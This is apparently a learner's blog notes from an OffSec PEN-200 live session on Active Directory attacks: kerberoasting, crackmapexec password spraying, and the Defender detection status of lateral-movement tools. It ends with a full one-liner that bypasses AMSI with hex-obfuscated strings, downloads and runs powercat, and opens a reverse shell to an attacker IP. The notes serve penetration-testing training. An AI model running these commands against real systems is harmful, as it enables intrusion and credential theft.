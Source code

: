 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-08-26 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-26-offsec-live-pen-200.html
author: 100007
---
```


# OffSec Live: PEN-200

**author:** Nathan Acks  
**date:** 2022-08-26

# Active Directory Enumeration & Exploitation, Part 2

`Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.

In AD, the domain controller will grant a service ticket for _any_ service to _any_ user. Access is enforced by the _service_ machine.

Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.

There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won’t output the entire ticket!

```
Invoke-Kerberoast -OutputFormat Hashcat |
Select-Object Hash |
Out-File -filepath "$FILE_PATH" -Width 8000
```

SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.

There’s a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you _shouldn’t_ use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.)

```
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
-u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null
```

Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.

The SCShell fileless lateral movement tool is generally _not_ detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.

Powercat is a reimplementation of netcat in PowerShell. Helpful!

A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat:

```
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

- [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
- [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
- [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [Using PowerShell](https://cardboard-iguana.com/notes/powershell.html)
- [EmpireProject / Empire / module\_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
- [Kerberos](https://cardboard-iguana.com/notes/kerberos.html)
- [Using Hashcat](https://cardboard-iguana.com/notes/hashcat.html)
- [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
- [besimorhino / powercat](https://github.com/besimorhino/powercat)
